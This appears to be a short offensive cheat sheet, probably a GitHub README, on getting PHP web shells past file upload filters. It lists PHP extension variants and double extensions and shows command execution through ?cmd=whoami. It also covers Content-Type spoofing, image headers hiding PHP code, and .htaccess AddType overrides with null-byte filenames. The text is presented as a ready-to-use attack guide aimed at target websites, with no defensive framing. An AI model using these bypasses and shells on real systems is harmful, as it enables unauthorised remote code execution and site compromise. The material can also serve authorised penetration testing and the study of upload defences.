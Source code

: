 You should always test for file upload vulnerabilities by trying to upload simple php shells in target websites.
## Via Common php file extensions:
1. .php
2. .php3
3. .php4
4. .php5
5. .php6
6. .phtml
7. .png.php
8. .jpg.php
9. .jpeg.php


for shell.php above add ?cmd=<command-e.g whoami> in the path where the file is uploaded eg /images/safeImage.php?cmd=whoami

## via Content-Type Header Tricks (For Upload Bypass)
image/jpeg	Upload shell.php but rename it shell.jpg and set this as Content-Type. Some apps only check the Content-Type.
application/x-php	Old trick if server-side allows this — rare now.
application/octet-stream	Generic binary stream. Sometimes used to bypass filters that expect image/*.
text/plain	Might bypass if the app only checks for image MIME types.
multipart/form-data; boundary=xyz	Used to send raw POST data for file upload, manipulating boundaries and headers.
text/html	Sometimes used to trick filters, especially in combo with file extension manipulation.
image/png + fake header	Use a real image header + PHP code.


## Via .htaccess:
filename=".htaccess"    OR    ".htaccess%00.jpg"

  AddType application/x-httpd-php .jpg         ---->This will process any jpg file uploaded as php: Also make sure to set Content-Type: application/x-php when uploding the   jpg

  AddType text/html .jpg                       ---->This will process any jpg file uploaded as html

